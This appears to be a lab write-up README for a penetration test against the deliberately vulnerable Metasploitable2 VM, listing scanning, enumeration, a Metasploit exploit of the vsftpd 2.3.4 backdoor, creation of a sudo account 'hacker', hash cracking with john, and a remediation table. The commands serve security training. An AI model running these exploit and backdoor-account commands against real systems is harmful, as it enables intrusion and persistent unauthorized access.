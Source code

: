 # 🛡️ Penetration Testing and Remediation on a Target System

## 🎯 OBJECTIVES -
To conduct a structured penetration test using ethical hacking techniques on a deliberately vulnerable virtual machine. The objective is to simulate a real-world attack scenario and then provide recommendations for remediation. 

#
## 💻 LAB ENVIRONMENT -
|Component         |  Details                             |
|------------------|--------------------------------------|
|Attacker Machine  |  Kali Linux (Latest Version)         |
|Target Machine    |  Metasploitable2 / DVWA              |
|Network Type      |  Host-Only or NAT (VMware/VirtualBox)|
|Target IP         |  192.168.56.101 (example)            |

#
## 🚀 TASK PERFORMED –
### 🔍 Task 1: Basic Network Scanning
Purpose: Identify open and potentially vulnerable ports and services.

Command:

nmap -sS -sV -T4 -Pn 192.168.56.101

Expected Output:

|PORT   | STATE | SERVICE | VERSION                                     |
|-------|-------|---------|---------------------------------------------|
|21/tcp | open  | ftp     | vsftpd 2.3.4                                |
|22/tcp | open  | ssh     | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)|

Open Services Analysis:

FTP (21): Unauthenticated access or vulnerable versions.

SSH (22): Brute-force potential.

#
### 🕵️‍♀️ Task 2: Reconnaissance
Purpose: To identify web-based vulnerabilities and sensitive files.

Command:

nikto -h http://192.168.56.101

Expected Output:

+ Server: Apache/2.2.8 (Ubuntu)
  
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
  
#### 🔐 Hidden Services Example:
phpinfo.php: Often left during development.

/test/ or /backup/ folders may contain credentials or outdated code.

#### 🛠️ Extra Tool:
dirb http://192.168.56.101

#
### 📝 Task 3: Enumeration Summary
Purpose: To gather detailed information about services, users, and shares.

Command (Samba Enumeration):

enum4linux -a 192.168.56.101

Expected Output:

Users: admin, user1, guest

Shares: IPC$, ADMIN$, Public, tmp

Machine Name: METASPLOITABLE

#
### 💥Task 4: Exploitation of Services
Exploit Example: vsftpd 2.3.4 Backdoor

msfconsole

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 192.168.56.101

run

Expected Output:

Backdoor service has been spawned.

Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:6200)

#
### 👤 Task 5: Creating A Privileged User
Command inside Shell:

useradd -m hacker

echo 'hacker:hacked123' | chpasswd

usermod -aG sudo hacker

Expected Output:

uid=1001(hacker) gid=1001(hacker) groups=1001(hacker),27(sudo)

#
### 🥷 Task 6: Cracking Password Hash
Command:

Crack Using John:

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Expected Output:

hacked123 (hacker)

#
### 🔧 Task 7: Remediation And Recommendations
|Issue                              | Risk                      | Recommendation                         |
|-----------------------------------|---------------------------|----------------------------------------|
|vsftpd 2.3.4 with backdoor         | Remote shell access       | Disable FTP or update to latest version|
|Web server exposes /phpinfo.php    | Sensitive info disclosure | Remove or restrict access              |
|Default users found via enum4linux | Easy brute-force          | Remove or rename default account       |
|Weak password found                | Easy to crack             | Use strong, complex passwords          |

#
## 📚 CONCLUSION -
This project demonstrated a typical penetration testing workflow including scanning, enumeration, exploitation, and remediation planning. The vulnerabilities identified are common in many legacy or misconfigured systems and serve as practical learning examples for both aspiring ethical hackers and defenders.

#
## ⚠️ DISCLAIMER -
This project is strictly for educational purposes. All activities were conducted in a closed virtual environment with no access to external or live systems.

#
